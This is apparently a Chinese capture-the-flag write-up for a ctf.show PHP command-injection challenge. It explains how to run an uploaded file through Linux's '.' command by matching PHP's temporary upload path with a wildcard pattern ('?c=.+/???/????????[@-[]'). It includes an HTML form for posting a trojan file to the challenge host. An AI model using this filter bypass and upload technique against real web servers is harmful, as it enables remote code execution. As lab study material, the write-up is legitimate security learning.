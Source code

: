 这道题主要的方向

```cobol
1.没有过滤. 
在linux中 .不需要x权限就可以执行
 
所以我们如果有一个可控的文件
那么我们可以直接执行这个文件
 
2.我们如果上传一个文件 一般情况下是临时保存在 ./tmp/phpXXXXXX中
 
其中后六位是随机生成的大小写字母
 
```

这里我们就可以通过本地的网站 链接到 攻击的靶场 然后通过post文件

达到执行我们上传的木马文件

但是我们如何通过过滤去访问文件呢

```cobol
./tmp/phpXXXXXX 
 
首先我们可以通过 ？ 来模糊匹配
 
 
./???/???XXXXXX 
 
那我们如何匹配后面的呢
 
因为/tmp/ 下会有很多类似的文件
 
所以我们可以通过正则匹配来匹配文件
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4ef4c950d389cf73cc97edc3c8244220.png" alt="" style="max-height:585px; box-sizing:content-box;" />


我们能发现

大写字母在 @和[之间

那我们只需要通过正则匹配 @-[即可

所以我们get的方式就是

```ruby
?c=.+/???/????????[@-[]
```

```cobol
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://cd3eb1d9-31ec-4644-b057-c38153f6a911.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
